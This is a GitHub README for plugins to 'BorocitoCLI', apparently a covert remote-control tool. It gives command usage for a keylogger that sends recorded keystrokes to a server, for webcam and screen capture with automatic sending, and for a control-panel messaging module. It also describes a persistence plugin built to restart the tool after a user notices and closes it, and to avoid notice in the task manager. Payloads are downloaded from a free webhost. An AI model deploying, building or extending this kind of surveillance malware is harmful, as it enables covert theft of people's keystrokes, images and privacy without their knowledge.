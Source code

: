 # borocito-components
Complementos para Borocito CLI

## Complements
These plugins were created to enrich the experience with BorocitoCLI.

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.

### Using it
All plugins here, except for the 'boro-get' package manager, were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.

#### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini
```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```
Now that boro-get is installed. We can start installing and using the packages.

We can install a package with the command `boro-get <package> <start?> <parameters>`
An example with broKiloger:
`boro-get broKiloger True /startrecording`
If the package does not require an argument:
`boro-get broKiloger`
(<start?> will be marked as True, the package will start)

If you don't want to start it (just download and install it)
`boro-get broKiloger False null`

>NOTE: 'null' is a reserved word, it will be very useful!

Now we are going to define a concept.
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?
Also, they can receive parameters when they are already started, so you can control them.

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.


### broEstoraje
This plugin is not coded yet.
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).

### broKiloger
broKiloger is a plugin dedicated to logging keys.

> NOTE: Single Instance Package

Your options are:
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh
/stoprecording: It will stop the key recording and broKiloger will close.
boro-get broKiloger True /stoprecording
```
> NOTE: It will not save or send the record.

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```
> NOTE: It will not save or send the record.

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.
For this reason, broRescue is a good recommendation that it be installed.
**And what does it do?**
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:
`broRescue Borocito`
and not only that, you can also start the extractor, or the updater.
To do this, the commands will be:
`broRescue Extractor`
`broRescue Updater`
Or even restart the computer with the command:
`broRescue Restart`
This packet reads directly from the server. Every 20 minutes. So yes, you will notice the effect in 20 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.

### broScrincam
This plugin is for:
- Take photos from a Webcam
- Record video from a Webcam
- Record screen

> NOTE: Single Instance Package

```sh
/startscreenrecording: (will try) record the screen.
boro-get broScrincam True /startscreenrecording
```

```sh
/stopscreenrecording: It is supposed to stop screen recording. That part is not scheduled yet.
boro-get broScrincam True /stopscreenrecording
```
> NOTE: It will not save or send the record. Not coded yet.

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```
> NOTE: It will be sent automatically.

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```
> NOTE: It will not save or send the record.

```sh
/sendscreenrecord: It is supposed to stop, save and send the screen recording. This part is not coded yet.
boro-get broScrincam True /sendscreenrecord
```
> NOTE: Not coded yet.

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

## Uninstalling a package
To uninstall, remove a package, the following points must be taken into account.
- The plugin MUST BE CLOSED. There should not be an instance of this. Read the documentation to know how to close it.
- All data from this plugin, recordings, files, etc. will be deleted.
- They can be reinstalled, don't worry about it.

To uninstall, use the `boro-get <package> True uninstall` command.
An example with broKiloger would be:
`boro-get broKiloger True uninstall`
'uninstall' in lowercase.

The plugins created are not perfect. I recommend you take a look at the code to know what it does and how it does it, so you avoid unpredictable behavior or bad practices.